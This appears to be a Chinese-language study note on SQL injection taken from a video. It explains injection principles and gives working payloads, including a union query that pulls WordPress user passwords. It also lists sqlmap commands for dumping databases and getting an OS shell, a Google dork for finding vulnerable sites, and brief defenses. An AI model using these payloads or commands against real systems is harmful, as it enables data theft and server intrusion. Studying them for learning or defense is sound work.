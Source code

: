 ```yaml
---
title: Security-4
description: SQL注入
---
```


## 前言

本文是观看[此视频](https://www.bilibili.com/video/BV1g4411Y7Y4/)时的笔记

## 原理

### 基本思路

如果服务器使用字符串拼接的方法处理 SQL 查询，就可以实现 SQL 注入。

比如说，服务器使用`"SELECT * FROM users WHERE id='$id'"`，我们可以令`id`为`' or 1=1 --`，使 SQL 语句变为：

```sql
SELECT * FROM users WHERE id='' or 1=1 --'
```

其中`'`用来闭合字符串中的引号，`or 1=1`用来确保`where`的结果一定为真，`--`确保后面的字符串都是注释而被忽略

这样我们就可以获取所有用户的信息

如果我们在注入的变量里面使用`join`/`union`，就可以获得其他表的信息。可能需要一些字面值进行字段填充

### 常用 SQL 命令

- `show database`查看数据库
- `show tables`查看表
- `desc <table>`查看表详情
  - `desc mysql.user`
  - `desc wordpress.wp_users`
- `show create table <table>`查看建表语句
- `select * from books where id = '' and 1=2 union select user_login, user_pass, '1', '2' from wordpress.wp_users`
  - 使用`and 1=2`使原本的 SQL 查询不返回任何结果，然后`union`右边的 SQL 查询，实现仅返回右边的结果
  - 使用字面值`'1', '2'`填充字段
- `select * from information_schema.tables`查询表结构
  - 因为联合查询中不能使用`show database`/`show tables`，所以需要通过`information_schema`库来查表信息
  - 也可以`select database()`查看数据库信息
- `select database()`/`select version()`/`select user()`查询所有数据库名/数据库版本信息/当前用户名

### 字段填充

如果要猜测原本 SQL 语句中的字段数量，可能需要使用如下 SQL 语句：

```sql
select * from xxx union select 1;
select * from xxx union select 1, 2;
select * from xxx union select 1, 2, 3;
select * from xxx union select 1, 2, 3, 4;
select * from xxx union select 1, 2, 3, 4, 5;
select * from xxx union select 1, 2, 3, 4, 5, 6;
...
```

查到字段数量之后，实际查询中就可以使用字段填充来增加字段数量，或者字段拼接减少字段数量：

```sql
select a, 1, 2 from xxx;
select a, b, concat(c, '.', d) from xxx;
```

### 注入方式

- 基于错误的注入
  - 如果输入错误的 SQL 语句，服务器报错，说明服务器进行的是 SQL 拼接，而不是参数化查询，存在注入点
  - 所以基于错误的注入，主要用来探测注入点
- 基于布尔注入
  - 发现注入点后，使用`' or 1=1 --`的方式，使原本的布尔逻辑失效
  - 然后使用字段填充，查到原本 SQL 语句的字段数量
- 基于 Union 注入
  - 通过 union 来查询其他表的内容
- 基于时间盲注
  - 盲注的意思是服务器并不返回 SQL 查询结果
  - 使用时间函数`sleep(5)`。如果服务器等待了 5 秒，则说明存在注入点
  - 示例：`select * from xxx where id = '1' and sleep(5) --'`
    - 注意：使用`and`的时候，`and`前面的条件需要为 true，才会触发 sleep

### sqlmap

自动化注入工具

- `sqlmap -h`查看帮助
  - `sqlmap -hh`查看高级帮助
- `-u`指定需要注入的 URL
  - 使用谷歌搜索`inurl:.php?id=`可以查询带有疑似 SQL 注入点的网站
- `-g`使用谷歌帮忙搜索注入点
- `-c`通过配置文件指定注入点
- `--method`指定 HTTP 方法
- `--random-agent`随机`User-Agent`
- `--dbms`手动指定数据库类型
- `--batch`自动回答`Y`
- `-p`指定 SQL 注入的参数
- `--cookie`指定 Cookie
- `--sql-shell`获得 SQL SHELL，但是并不是所有 SQL 命令都可以被执行
- `--os-shell`尝试获取操作系统 SHELL，可能会失败
- `--os-cmd`使用操作系统命令

- sqlmap 注入成功之后会把连接信息缓存在本地，执行其他命令的时候就可以直接调用了。毕竟每次尝试注入可能会花十几分钟
- sqlmap 还会自带一些哈希字典，可以把常见的哈希密码还原为明文，且支持自定义字典
- 有些站点需要登录，所以发请求的时候要带上 Cookie，否则会被重定向

示例：

```bash
# 首次尝试注入
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username

# 如果成功，就可以使用其他参数获取信息了
# 比如使用`--dbs`获得所有数据库的信息
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --dbs
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --users
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --current-user
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --current-db
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username -D 'database' --tables
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username -D 'database' -T 'table' --columns
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username -D 'database' -T 'table' --dump
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username -D 'database' -T 'table' -C 'username, password' --dump
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --dump-all
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --dump-all --exclude-sysdbs
```

## 流程

1. 判断是否有 SQL 注入漏洞（注入点）
2. 判断操作系统、数据库、WEB 服务器的信息
3. 获取数据库信息，包括管理员信息和拖库
4. 加密信息破解
5. 提权，获得 sql-shell、os-shell，登录服务器

## 防御

- 给数据库用户设置最小权限，防止用户查系统表/权限之外的表
- 使用参数化查询，避免字符串拼接
